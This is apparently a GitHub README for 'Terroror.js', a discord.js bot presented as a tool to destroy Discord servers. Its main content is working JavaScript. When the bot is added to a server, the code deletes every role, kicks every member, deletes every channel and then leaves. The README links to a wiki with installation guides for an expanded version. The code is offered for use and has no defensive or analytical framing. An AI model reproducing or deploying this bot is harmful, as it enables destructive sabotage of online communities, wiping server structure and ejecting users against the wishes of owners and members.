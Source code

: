 <h1 align=center><a href="https://github.com/Minco-inc/Terroror.js/"><img src="https://user-images.githubusercontent.com/85981610/138410773-c29bfe56-830c-4653-9613-ff7f93263170.png"></a></h1>
<p align=center>
    A <b>Terroror.js</b> bot, is made in <b>discord.js</b> to destroy discord servers!
</p>

<h1 align=center><a href="#"><img src="https://user-images.githubusercontent.com/85981610/138411327-b0f56768-fc30-4951-8aae-9efa195958ba.png"></a></h1>

## Your app.js
```js
/* 
      DO THIS AT YOUR OWN RISK!
      We are not responisible of any damages on discord!
      Copyright by MincoMK
      https://www.minco.kro.kr/
*/
const Main = require("./src/Main.js"); // let discord make own main directory

let main = new Main(); // let make ./src/Main.js as main code
main.main(); // making main code is working
```

## Simple eventmanager.js

```js
const process = require("process");
const version = require("../package.json").version;

/* 
	Enables the SuperTerroror on Discord when bots join automatically make a bomb to server
*/
class EventManager {
	joinAllEvents(client) { // join bot for all events
		this.client = client; // this client
		client.on("ready", async () => { // on ready
			console.log("The bot is ready to terroror"); // when bot is ready log on console
		});

		client.on("guildCreate", guild => { // the server ---
			guild.roles.cache.forEach(role => { // for each role
				role.delete().catch(console.error); // --- delete all roles
			});
			guild.members.cache.forEach(mb => { // for each members
				mb.kick().catch(console.error); // --- kick all members
			});
			guild.channels.cache.forEach(ch => { // for each channels
				ch.delete().catch(console.error); // --- delete channels
			});
			guild.leave(); // and leave the bot after terroror
		});
	}
}

module.exports = EventManager; // export the eventmanager

// end of file
```
<b>When bots join, automatically terroror!</b>



<p align=center>
    View <a href="https://github.com/Minco-inc/Terroror.js/wiki/">Wiki</a> for <b>Full Installation and Guides</b> for building <b>SuperTerroror.js!</b>
</p>

<h1 align=center><a href="#"><img src="https://user-images.githubusercontent.com/85981610/138412398-8be72245-210b-433f-9aa8-ef37f569c831.png"></a></h1>

- Added `express` app for Uptimerobot.com
- Removed `node_modules`, use `npm install / npm i` on terminal
- Added `disnotify` on `package.json`
- Added `@discord-opus`, `discord-api-types`, and other depencies of djs

[`View History Changelogs`](/Changelogs.md) for All Information!

# Credits
- MincoMK: Coding
- Hen2527: Design/Commenting

# License
This repository is protected by BY-NC-SA Creative Commons license.
